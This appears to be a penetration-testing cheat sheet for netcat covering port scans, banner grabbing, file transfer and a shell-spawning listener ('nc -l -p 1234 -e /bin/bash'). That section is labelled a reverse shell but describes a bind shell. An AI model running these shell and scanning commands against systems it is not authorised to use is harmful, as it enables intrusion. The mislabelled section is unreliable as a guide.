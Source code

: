 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Netcat

Netcat, or `nc`, serves as a versatile command-line utility for port scanning, allowing users to check the availability of services on a target system.

* **Basic TCP Port Scan:**

```bash
nc -zv [hostname] [start-port]-[end-port]
```

&#x20;Conducts a basic TCP port scan on the specified hostname within a defined port range, revealing open ports.

*   **UDP Port Scan:**

    ```bash
    nc -uzv [hostname] [start-port]-[end-port]
    ```

    Performs a UDP port scan on the specified hostname within a defined port range, identifying open UDP ports.

**Banner Grabbing:**

*   **Retrieve Service Banner:**

    ```bash
    nc -v [hostname] [port]
    ```

    Connects to the specified port on the target system, displaying information from the service banner for identification.

**TCP Connection Test:**

*   **Full TCP Connection Test:**

    ```bash
    nc -v [hostname] [port]
    ```

    Initiates a full TCP connection to the specified port, providing detailed connection information.

**Reverse Shell:**

*   **Set up Reverse Shell (Listener):**

    ```bash
    nc -l -p [port] -e /bin/bash
    ```

    Sets up netcat as a listener, waiting for an incoming connection and spawning a shell on successful connection.
*   **Initiate Reverse Shell (Initiator):**

    ```bash
    nc [listener-hostname] [port]
    ```

    Initiates a connection to a netcat listener, potentially providing remote shell access.

**File Transfer:**

*   **Receive File (TCP):**

    ```bash
    nc -l -p [port] > [output-file]
    ```

    Listens on a specified port for incoming data and saves it to a file, useful for receiving files via TCP.
*   **Send File (TCP):**

    ```bash
    nc [receiver-hostname] [port] < [input-file]
    ```

    Connects to a netcat listener and sends the contents of a file to the receiver via TCP.

**Chat Mode (Two-way Communication):**

*   **Initiate Chat Mode (TCP):**

    ```bash
    nc -l -p [port]   # On one terminal
    nc [hostname] [port]  # On another terminal
    ```

    Enables a simple chat mode for exchanging data between two terminals using TCP.

**Summary:**

```bash
Usage: nc [options] [hostname] [port]
```

**Options:**

* `-l`: Listen mode, for inbound connects
* `-p port`: Specify source port to use
* `-e command`: Execute command after connect
* `-s addr`: Local source address
* `-v`: Verbose
* `-w timeout`: Connect timeout
* `-z`: Zero-I/O mode (scanning)
* `-u`: UDP mode
* `-o file`: hex dump file of traffic

**Examples:**

* `nc -l -p 1234`: Listen on port 1234 for incoming connections
* `nc -l -p 1234 -e /bin/bash`: Listen on port 1234 and execute /bin/bash on incoming connection
* `nc -v -z example.com 80-100`: Perform a verbose port scan on example.com from ports 80 to 100

{% hint style="info" %}
&#x20;Netcat supports both TCP and UDP connections. The `-z` flag makes it operate in scanning mode, while the `-u` flag specifies UDP. The `-e` flag allows execution of a specified command upon connection.
{% endhint %}

**Resources:**

* [https://nmap.org/ncat/](https://nmap.org/ncat/)
